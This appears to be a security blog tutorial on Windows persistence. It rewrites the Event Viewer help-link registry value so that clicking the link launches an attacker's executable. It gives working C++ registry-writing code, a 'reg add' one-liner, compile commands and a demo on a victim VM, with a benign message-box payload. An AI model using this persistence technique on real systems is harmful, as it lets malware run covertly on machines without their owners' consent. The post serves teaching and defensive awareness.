 ```yaml
---
title:  "Malware development: persistence - part 14. Event Viewer help link. Simple C++ example."
date:   2022-10-09 03:00:00 +0300
header:
  teaser: "/assets/images/74/2022-10-09_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/74/2022-10-09_05-28.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: via replacing Windows Event Viewer help link.     

### event viewer help link

Windows' Event Viewer has existed for over a decade. The Event Viewer examines a limited number of logs that Windows maintains on your computer. The logs are `XML`-formatted text files containing plain content.     

![pers](/assets/images/74/2022-10-09_05-10.png){:class="img-responsive"}    

As part of its user interface, Event Viewer provides a link to *Event Log Online Help*:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

When clicked, a default help Microsoft link will be opened, which is defined at the windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](/assets/images/74/2022-10-09_05-13.png){:class="img-responsive"}    

As you may have guessed, it would be logical to assume that the key: `MicrosoftRedirectionURL` value can be changed in the interests of an attacker. That's the trick.    

### practical example

Let's look at a practical example. Firstly, as usually, create evil application, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Then, create a program for persistence (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, just update registry key value to `file://Z:\\2022-10-09-malware-pers-14\\hack.exe`.    

### demo

Let's go to see everything in action. Compile "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_17-31.png){:class="img-responsive"}    

check correctness:    

![pers](/assets/images/74/2022-10-09_05-38_1.png){:class="img-responsive"}    

and compile persistence script:    
```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_05-24.png){:class="img-responsive"}    

Check default registry key values at the victim's machine - `Windows 10 x64` in my case:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](/assets/images/74/2022-10-09_05-25.png){:class="img-responsive"}    

then also run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```    

![pers](/assets/images/74/2022-10-09_05-26.png){:class="img-responsive"}    

Finally, try to click *Event Log Online Help* link again:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-27.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/74/2022-10-09_05-34.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-30.png){:class="img-responsive"}    

This means that when link clicked, `mmc.exe` is launched, which in turn launches malicious behavior.    

For revert, after end of experiments, run:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](/assets/images/74/2022-10-09_05-38.png){:class="img-responsive"}    

or just restore virtual machine.     

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/2022-10-09-malware-pers-14)        

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
